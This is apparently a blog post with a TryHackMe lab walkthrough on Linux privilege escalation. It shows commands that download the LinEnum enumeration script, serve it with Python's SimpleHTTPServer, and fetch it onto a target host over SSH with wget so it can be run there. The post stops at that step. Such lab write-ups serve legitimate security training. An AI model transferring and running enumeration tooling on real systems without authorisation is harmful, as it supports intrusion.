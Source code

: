 ```yaml
---
title: "Linux Privesc"
date: 2020-12-25T01:02:30-06:00
draft: false
author: "Golgothus"
description: "Test description to show up on the posts page."
tags: ["TryHackMe","Linux"]
---
```


# Linux Priv Escalation

Start by downloading the LinEnum script through either of the following methods:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Visit the website and pull the file from [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

> It is helpful to at least view / review the material in the bash script to try and have an idea as to what actions are being performed

## Task 4

### Task 4 - Flag1

Ssh into the box given the credentials on the site

### Task 4 - Flag2 & Flag3

What is the target's host name?

For this, it would be helpful to go ahead and pull over the LinEnum script. To do this, I used the simple web client from Python, you can also just copy and paste the information into a file, then chmod +x \<file>

#### Simple Web Client

Make sure to run this from the directory your enum script is located

```bash
python -m SimpleHTTPServer 8000
```

Open another terminal / session, ssh into the vulnerable system.

Run:

```bash
wget <local ip address>:<port>/LinEnum.sh
```

Once the script is on the vulnerable system we need to chmod+x the file to make it executable
